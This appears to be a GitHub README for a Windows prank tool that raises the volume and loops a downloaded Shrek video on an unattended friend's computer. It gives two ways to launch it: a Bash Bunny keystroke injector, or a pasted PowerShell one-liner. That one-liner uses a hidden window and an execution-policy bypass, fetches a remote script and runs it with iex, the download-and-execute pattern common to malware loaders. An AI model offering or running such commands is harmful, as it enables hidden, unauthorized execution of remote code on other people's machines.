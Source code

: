 # Prout Script
![alt text](https://github.com/RylexOff/Prout-Script/blob/main/Prout-Script.gif?raw=true)
## Description


It's a prank script designed to make your friend laugh who doesn't lock their computer. it must be run on a Windows 10 or 11 system, it does:
-Increase the volume to the maximum
-Download the video
-Launch the video in a loop (30 times max).


This script must be used as is, nothing to modify. The chosen video is a fart of Shrek, because we appreciate humor. That's why it's called the "prout-script".
ps: "Prout" = "Fart" in French

## Getting Started

### Dependencies

- Windows 10, 11
- Internet connection

### Execution

1. Plug in your bash bunny.
2. Modify the code to specify your preferred browser and video link.
3. The script will automatically execute, raising the volume to the maximum and opening the specified webpage or video.

Or

1. Windows + R
2. Past "powershell -w h -NoP -NonI -Exec Bypass (iwr -UseBasicParsing https://raw.githubusercontent.com/RylexOff/Prout-Script/main/prout_script.ps1).Content | iex"
3. Press Enter

## Contributing

Contributors:
- RylexOff

## Version History

- 1.0: Initial Release

## Contact

- GitHub: [RylexOff](https://github.com/RylexOff)

## Acknowledgments

- [Hak5](https://hak5.org/)
- [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

